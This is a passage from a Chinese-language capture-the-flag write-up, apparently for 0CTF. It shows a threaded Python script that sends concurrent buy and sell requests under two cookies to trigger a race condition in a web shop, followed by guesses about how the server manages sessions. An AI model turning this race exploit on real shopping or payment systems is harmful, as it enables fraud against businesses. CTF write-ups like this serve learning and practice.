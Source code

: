 ```python
res = session1.post(url = url1,params = paramsLogin,data = data,cookies = cookie1)
print res.text
res = session1.post(url = url1,params = paramsLogin,data = data,cookies = cookie2)
print res.text

# res = session1.get(url1,params = paramsBuy,cookies = cookie1)
# print res.text
# res = session1.get(url1,params = paramsSale,cookies = cookie2)
# print res.text
# res = session1.get(url1,params = paramsSale,cookies = cookie1 )
# print res.text

def buy():
	res = session1.get(url1,params = paramsBuy,cookies = cookie1)
	print res.text

def sale():
	res = session1.get(url1,params = paramsSale,cookies = cookie2)
	print res.text
	res = session1.get(url1,params = paramsSale,cookies = cookie1 )
	print res.text

def main():
	while True:
		t1 = threading.Thread(target=buy)
	  	t2 = threading.Thread(target=sale)
	  	t3 = threading.Thread(target=sale)
	  	t1.start()
	  	t2.start()
	  	t3.start()

	  	t1.join()
	  	t2.join()
	  	t3.join()

if __name__ == '__main__':
	main()

```

测试一下，果然是**阻塞**的问题。通过这种方式可以弥补一下阻塞，但是触发机率没有curl高。

![race](https://moxiaoxi.info/img/post/0ctf/race.png)



##### 后台逻辑猜想

因为购买和卖出操作后，会破坏session。这样，对于同一个用户，同一个cookie就不能通过多线程的买卖来实现竞争了，因为session在第一次sale确认请求中被破坏，这样第二个sale请求就失败了。所以，原来的竞争没有效果。

这里采用session保存用户的状态，比如用户有多少钱和物品，用cookie作为标志符号
